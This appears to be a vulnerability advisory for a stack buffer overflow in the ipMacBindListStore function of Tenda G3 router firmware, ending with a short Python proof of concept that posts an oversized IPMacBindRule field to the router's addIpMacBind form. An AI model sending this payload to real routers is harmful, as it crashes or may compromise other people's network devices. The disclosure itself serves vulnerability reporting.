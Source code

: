 # Tenda G3 ipMacBindListStore
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the ipMacBindListStore function.
### Vulnerability details
Stack-based buffer overflow in function ipMacBindListStore on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function ipMacBindListStore line 37, it reads in a user-provided parameter, and the variable listStr is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/ipMacBindListStore-1.png)
![](images/ipMacBindListStore-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addIpMacBind'
payload = {
    "IPMacBindRule": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
